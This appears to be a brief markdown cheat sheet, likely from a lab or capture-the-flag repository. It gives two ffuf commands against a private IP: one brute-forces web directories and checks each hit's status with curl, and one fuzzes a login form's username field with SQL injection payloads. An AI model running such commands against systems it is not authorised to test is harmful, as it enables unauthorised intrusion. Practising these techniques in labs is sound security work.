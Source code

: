 # FFUF Directory Fuzzing with Clean Output

## Directory Bruteforcing
```bash
ip="10.10.2.151"; ffuf -u "http://$ip/FUZZ" -w /usr/share/wordlists/dirb/big.txt -t 50 -e .php -mc 200,301,302,403 -fs 276 -s | while IFS= read -r line; do echo "Found: http://$ip/$line | Status: $(curl -sI "http://$ip/$line" | head -n1 | cut -d' ' -f2)"; done

```
## SQL Injection test
```bash
ffuf -w sql_payload.txt -X POST -u http://10.10.2.151/login.php -d 'username=FUZZ&password=ANY' -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -mc 301,302
```
